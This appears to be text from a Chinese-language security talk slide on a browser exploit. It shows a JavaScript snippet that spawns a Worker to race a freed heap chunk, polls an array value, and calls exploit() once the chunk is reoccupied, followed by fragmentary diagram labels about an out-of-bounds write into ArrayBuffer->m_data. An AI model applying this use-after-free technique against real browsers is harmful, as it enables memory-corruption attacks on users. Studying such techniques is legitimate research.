

2 创建新线程，在新线程中触发漏洞

创建新线程，主线程加入监控代码
function test（）{
if(array1[0x157][0]!=0x21212121){
       exploit（）;
}

}
var worker1 = new Worker("worker1.js");
setInterval("test()",1);
Freed的堆块会被占用，并触发越界写
Arraybuffer->m_data
Dst

Arraybuffer->m_data
Arraybuffer->m_data
Arraybuffer->m_data
Ssrc
rc
Arraybuffer->m_data
Arraybuffer-m_data
Arraybuffer->m_data